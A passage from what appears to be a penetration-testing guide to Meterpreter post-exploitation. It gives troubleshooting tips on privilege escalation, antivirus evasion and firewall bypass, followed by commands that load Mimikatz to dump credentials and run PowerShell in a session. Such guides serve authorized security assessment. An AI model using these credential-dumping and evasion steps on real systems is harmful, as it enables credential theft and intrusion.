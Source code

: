 ### Permission Denied
- **Cause**: Insufficient privileges
- **Solution**: Token manipulation, privilege escalation

### AV Detection
- **Cause**: Behavioral analysis, signature detection
- **Solution**: Process migration, encryption, evasion techniques

### Network Restrictions
- **Cause**: Firewall, IDS/IPS blocking
- **Solution**: Alternative transport methods, port forwarding

## Integration with Other Tools

### Mimikatz Integration
```bash
# Load mimikatz extension
meterpreter > load mimikatz

# Dump credentials
meterpreter > msv
meterpreter > kerberos
meterpreter > wdigest
```

### PowerShell Integration
```bash
# Load PowerShell extension
meterpreter > load powershell

# Execute PowerShell commands
meterpreter > powershell_shell
meterpreter > powershell_execute "Get-Process"
```

This comprehensive guide provides the foundation for effective post-exploitation using Meterpreter while maintaining operational security and achieving assessment objectives. 
